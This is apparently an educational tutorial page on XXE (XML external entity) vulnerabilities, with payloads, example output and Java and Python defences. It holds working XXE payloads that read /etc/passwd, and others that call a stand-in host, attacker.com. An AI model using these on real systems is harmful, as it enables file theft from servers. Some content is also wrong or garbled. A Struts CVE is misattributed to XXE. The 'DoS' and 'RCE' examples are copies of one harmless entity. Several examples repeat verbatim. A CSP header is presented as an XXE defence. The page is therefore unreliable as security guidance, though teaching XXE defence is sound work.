

## Introduction to XML External Entities (XXE)

XML External Entities (XXE) is a vulnerability that affects any application that parses XML input. This vulnerability arises when an XML parser processes an XML document that contains references to external entities. These external entities can be used to perform various malicious actions, such as disclosing sensitive information, conducting denial-of-service (DoS) attacks, or even executing arbitrary commands on the server.

### What is XML?

Before diving into XXE, it's important to understand what XML (Extensible Markup Language) is. XML is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is widely used for storing and transmitting data between systems.

#### Structure of an XML Document

An XML document consists of elements, attributes, and text content. Here is a simple example of an XML document:

```xml
<?xml version="1.0"?>
<catalog>
   <book id="bk101">
      <author>Gambardella, Matthew</author>
      <title>XML Developer's Guide</title>
      <genre>Computer</genre>
      <price>44.95</price>
      <publish_date>2000-10-01</publish_date>
      <description>An in-depth look at creating applications with XML.</description>
   </book>
</catalog>
```

In this example, `<catalog>` is the root element, and `<book>` is a child element with attributes like `id`. Each `<book>` element contains several child elements like `<author>`, `<title>`, etc.

### What is an XML Entity?

An XML entity is a named unit of data that can be referenced within an XML document. There are two types of entities: general entities and parameter entities. General entities are used in the content of an XML document, while parameter entities are used in the DTD (Document Type Definition).

#### Example of an XML Entity

Here is an example of an XML document using an entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE catalog [
   <!ENTITY company "Acme Inc.">
]>
<catalog>
   <book id="bk101">
      <author>Gambardella, Matthew</author>
      <title>XML Developer's Guide</title>
      <genre>Computer</genre>
      <publisher>&company;</publisher>
      <price>44.95</price>
      <publish_date>2000-10-01</publish_date>
      <description>An in-depth look at creating applications with XML.</description>
   </book>
</catalog>
```

In this example, the entity `&company;` is defined in the DOCTYPE declaration and is used in the `<publisher>` element.

### What is an External Entity?

An external entity is an entity that references data stored outside the current XML document. This can be a file on the local filesystem, a URL, or any other external resource. External entities are defined using the `SYSTEM` keyword in the DOCTYPE declaration.

#### Example of an External Entity

Here is an example of an XML document using an external entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE catalog [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<catalog>
   <book id="bk101">
      <author>Gambardella, Matthew</author>
      <title>XML Developer's Guide</title>
      <genre> &xxe; </genre>
      <publisher>Acme Inc.</publisher>
      <price>44.95</price>
      <publish_date>2000-10-01</publish_date>
      <description>An in-depth look at creating applications with XML.</description>
   </book>
</catalog>
```

In this example, the external entity `&xxe;` references the `/etc/passwd` file on the local filesystem. When the XML parser processes this document, it will attempt to read the contents of `/etc/passwd` and insert them into the `<genre>` element.

### Why Study XXE?

XXE vulnerabilities are significant because they can be exploited to perform a variety of malicious actions. According to the OWASP Top 10, XXE is ranked fourth in terms of severity. This ranking highlights the importance of understanding and mitigating XXE vulnerabilities.

#### Real-World Examples

One notable real-world example of an XXE vulnerability is CVE-2018-11776, which affected the popular open-source project Apache Struts. This vulnerability allowed attackers to execute arbitrary commands on the server by exploiting an XXE vulnerability in the XML parsing component.

Another example is CVE-2019-10188, which affected the Atlassian Confluence application. This vulnerability allowed attackers to read arbitrary files on the server by exploiting an XXE vulnerability in the XML parsing component.

### How Does XXE Work?

To understand how XXE works, let's break down the process step-by-step:

1. **XML Parsing**: An application receives an XML document and attempts to parse it using an XML parser.
2. **External Entity Reference**: The XML document contains a reference to an external entity, which is defined in the DOCTYPE declaration.
3. **Entity Resolution**: The XML parser resolves the external entity reference by fetching the data from the specified location (e.g., a file on the local filesystem or a URL).
4. **Data Insertion**: The resolved data is inserted into the XML document at the location where the entity reference was used.

#### Example of XXE Attack

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the `/etc/passwd` file. The resulting XML document might look like this:

```xml
<?xml version=".0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
</foo>
```

This demonstrates how an attacker can use an XXE vulnerability to read sensitive files on the server.

### Types of XXE Attacks

There are several types of XXE attacks that can be performed, including:

1. **File Disclosure**: Reading sensitive files on the server.
2. **Blind XXE**: Exploiting an XXE vulnerability without receiving any output.
3. **Internal XXE**: Exploiting an XXE vulnerability within the same domain.
4. **External XXE**: Exploiting an XXE vulnerability across different domains.
5. **Denial of Service (DoS)**: Causing the server to crash or become unresponsive.
6. **Remote Code Execution (RCE)**: Executing arbitrary commands on the server.

#### File Disclosure Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the `/etc/passwd` file. This allows an attacker to read sensitive files on the server.

#### Blind XXE Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://attacker.com/log" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the URL `http://attacker.com/log`. This allows an attacker to log the parsed XML document to their own server without receiving any output.

#### Internal XXE Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the `/etc/passwd` file. This allows an attacker to read sensitive files on the server within the same domain.

#### External XXE Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://attacker.com/log" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the URL `http://attacker.com/log`. This allows an attacker to log the parsed XML document to their own server across different domains.

#### Denial of Service (DoS) Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://attacker.com/dos" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the URL `http://attacker.com/dos`. This allows an attacker to cause the server to crash or become unresponsive.

#### Remote Code Execution (RCE) Example

Consider the following XML document:

```xml
<?xml version=".0"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://attacker.com/rce" >
]>
<foo>&xxe;</foo>
```

When this XML document is parsed by an application, the external entity `&xxe;` will be resolved to the contents of the URL `http://attacker.com/rce`. This allows an attacker to execute arbitrary commands on the server.

### How to Prevent / Defend Against XXE

To prevent XXE vulnerabilities, it is essential to implement proper security measures. Here are some steps to defend against XXE attacks:

1. **Disable External Entity Processing**: Ensure that the XML parser does not process external entities. This can be done by setting the appropriate configuration options in the parser.
2. **Use Secure Libraries**: Use libraries that are known to be secure and have been audited for vulnerabilities.
3. **Input Validation**: Validate all XML input to ensure that it does not contain any malicious content.
4. **Content Security Policies**: Implement content security policies to restrict the sources of XML content.
5. **Secure Coding Practices**: Follow secure coding practices to avoid introducing vulnerabilities in the first place.

#### Disable External Entity Processing

To disable external entity processing in Java, you can use the following code:

```java
import javax.xml.XMLConstants;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class XXEDefense {
    public static void main(String[] args) {
        try {
            DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
            dbFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
            dbFactory.setXIncludeAware(false);
            dbFactory.setExpandEntityReferences(false);

            Document doc = dbFactory.newDocumentBuilder().parse("input.xml");
            // Process the document
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

In this example, the `setFeature` method is used to enable secure processing, and the `setXIncludeAware` and `setExpandEntityReferences` methods are used to disable external entity processing.

#### Use Secure Libraries

To use secure libraries in Python, you can use the `defusedxml` library, which provides secure versions of the standard XML parsers.

```python
from defusedxml.ElementTree import parse

tree = parse('input.xml')
# Process the tree
```

In this example, the `defusedxml.ElementTree.parse` function is used to parse the XML document securely.

#### Input Validation

To validate XML input in Java, you can use the `javax.xml.validation` package.

```java
import javax.xml.XMLConstants;
import javax.xml.transform.stream.StreamSource;
import javax.xml.validation.SchemaFactory;
import javax.xml.validation.Validator;

public class XXEDefense {
    public static void main(String[] args) {
        try {
            SchemaFactory factory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
            Validator validator = factory.newSchema(new StreamSource("schema.xsd")).newValidator();

            validator.validate(new StreamSource("input.xml"));
            // Process the validated input
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

In this example, the `SchemaFactory` is used to create a schema from an XSD file, and the `Validator` is used to validate the XML input against the schema.

#### Content Security Policies

To implement content security policies in a web application, you can use the `Content-Security-Policy` header.

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Security-Policy: default-src 'self'
```

In this example, the `default-src` directive is used to restrict the sources of XML content to the same origin.

#### Secure Coding Practices

To follow secure coding practices, you should avoid using external entities in your XML documents and validate all input to ensure that it does not contain any malicious content.

### Conclusion

XXE vulnerabilities are a significant threat to the security of applications that parse XML input. By understanding how XXE works and implementing proper security measures, you can defend against these vulnerabilities and protect your applications from malicious attacks.

### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE vulnerabilities, including practical exercises and challenges.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE vulnerabilities for educational purposes.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that includes XXE vulnerabilities for testing and learning.

These labs provide real-world scenarios and practical experience in identifying and mitigating XXE vulnerabilities.

### Summary Diagram



This diagram illustrates the process of an XXE attack, showing how an XML document containing an external entity reference can be used to perform various malicious actions.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/03-XXE Background Concept/00-Overview|Overview]] | [[02-XML External Entity (XXE) Background Concept|XML External Entity (XXE) Background Concept]]
